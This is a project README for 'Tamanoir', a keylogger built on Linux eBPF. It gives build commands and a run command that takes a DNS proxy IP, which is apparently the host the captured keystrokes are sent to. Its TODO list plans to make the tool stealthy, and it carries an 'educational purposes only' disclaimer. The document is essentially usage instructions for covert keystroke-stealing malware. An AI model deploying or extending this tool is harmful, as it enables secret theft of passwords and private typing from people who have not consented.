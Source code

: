 <div align="center">
  <h1> Tamanoir </h1>
  <img src="https://github.com/user-attachments/assets/47b8a0ef-6a52-4e2d-8188-e77bb9e98d79" style="width: 40%; height: 40%"</img>
  <h2> A KeyLogger using eBPF </h2>
</div>

## 💡Overview

<div align="center">
  <img src="https://github.com/user-attachments/assets/24f80020-9d60-4f2a-825b-ed56574dfb24" </img>
</div>

<br>

## 🪄 Usage

### Dns Proxy

Make sure you have:

- `docker` installed.
- [just](https://github.com/casey/just) installed.

```
just proxy
```

### Tamanoir

Before using `Tamanoir`, make sure you have:

- A Linux based OS.
- [bpf-linker](https://github.com/aya-rs/bpf-linker) installed.
- [just](https://github.com/casey/just) installed.
- [Rust](https://www.rust-lang.org/tools/install) installed with `nightly` toolchain.

1. Build `Tamanoir` from source

```
just build
```

2. Run

```
just run <Locally configured DNS server IP> <DNS Proxy IP> <keyboard layout>
```

for example:

```
just run 8.8.8.8 192.168.1.75 0
```

Currenly, there is only 2 supported keyboard layouts:

`0` : qwerty (us)

`1` : azerty (fr)

<br>

## 🛠️TODO

- [ ] Automatic discovery of the configured local dns server
- [ ] Automatic discovery of the keyboard layout
- [ ] Rewrite the DNS proxy in Rust
- [ ] Make the `Tamanoir` stealth

<br>

## ⚠️ Disclaimer

`Tamanoir` is developed for educational purposes only

<br>

## ✍️ Authors

[Badr Badri](https://github.com/pythops)

[Adrien Gaultier](https://github.com/adgaultier)

<br>

## ⚖️ License

GPLv3
